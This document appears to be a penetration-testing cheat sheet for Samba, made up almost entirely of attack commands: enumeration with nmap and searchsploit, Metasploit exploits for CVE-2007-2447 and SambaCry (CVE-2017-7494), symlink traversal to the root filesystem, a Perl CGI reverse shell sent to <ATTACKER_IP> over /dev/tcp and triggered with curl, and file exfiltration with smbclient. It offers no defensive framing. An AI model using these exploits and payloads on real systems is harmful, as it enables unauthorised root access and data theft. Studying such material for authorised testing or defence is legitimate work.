 

## **Initial Enumeration**

1. **Detect Samba Service and Version:**
    
    ```bash
    nmap --script smb-os-discovery -p445 <TARGET_IP>
    ```
    
    - **Output:** Samba version (e.g., Samba 3.0.20).
2. **Search for Vulnerabilities:**
    
    ```bash
    searchsploit samba <VERSION>
    ```
    
    - Example: `searchsploit samba 3.0.20`.

---

## **Exploitation Techniques**

### **1. CVE-2007-2447 - Username Map Script Command Execution**

- **Affected Versions:** Samba 3.0.0 to 3.0.25rc3.
    
- **Exploit with Metasploit:**
    
    ```bash
    msf> use exploit/multi/samba/usermap_script
    msf exploit(usermap_script) > set RHOST <TARGET_IP>
    msf exploit(usermap_script) > set LHOST <ATTACKER_IP>
    msf exploit(usermap_script) > exploit
    ```
    
- **Result:** Root shell access.
    
- **Stabilize Shell:**
    
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
    

---

### **2. Samba Symlink Directory Traversal**

1. **Check Shares for Write Permissions:**
    
    ```bash
    smbmap -H <TARGET_IP>
    ```
    
    - Example Output: `WRITE Access Found on 'tmp' Share`.
2. **Exploit with Metasploit:**
    
    ```bash
    msf> use auxiliary/admin/smb/samba_symlink_traversal
    msf auxiliary(samba_symlink_traversal) > set RHOST <TARGET_IP>
    msf auxiliary(samba_symlink_traversal) > set SHARE tmp
    msf auxiliary(samba_symlink_traversal) > run
    ```
    
3. **Access Symlinked Root Filesystem:**
    
    ```bash
    smbclient //TARGET_IP/tmp -N
    cd rootfs
    ls
    ```
    

---

### **3. Writable Share for Reverse Shell**

1. **Identify Writable Shares:**
    
    ```bash
    smbmap -H <TARGET_IP>
    ```
    
    - Example Writable Share: `www`.
2. **Test Write Permissions:**
    
    ```bash
    smbclient //TARGET_IP/www -N
    put test.txt
    ```
    
3. **Upload Reverse Shell:**
    
    - Prepare Payload:
        
        ```perl
        #!/usr/bin/perl
        print "Content-type: text/html\n\n";
        system("/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/1234 0>&1");
        ```
        
    - Upload using `smbclient`:
        
        ```bash
        put shell.pl
        ```
        
4. **Trigger Reverse Shell:**
    
    ```bash
    curl http://<TARGET_IP>:<PORT>/shell.pl
    ```
    
### **4. CVE-2017-7494 - SambaCry**

- **Affected Versions:** Samba 3.5.0 to 4.6.4.
    
- **Exploit with Metasploit:**
    
    ```bash
    msf> use exploit/linux/samba/is_known_pipename
    msf exploit(is_known_pipename) > set RHOST <TARGET_IP>
    msf exploit(is_known_pipename) > set PAYLOAD cmd/unix/reverse_netcat
    msf exploit(is_known_pipename) > exploit
    ```
    
## **Post-Exploitation**

1. **List Shares & Permissions:**
    
    ```bash
    smbmap -H <TARGET_IP>
    ```
    
2. **Access Shares:**
    
    ```bash
    smbclient //<TARGET_IP>/<SHARE_NAME> -N
    ```
    
3. **Data Exfiltration:**
    
    ```bash
    smb: \> get <FILE>
    ```
    

---

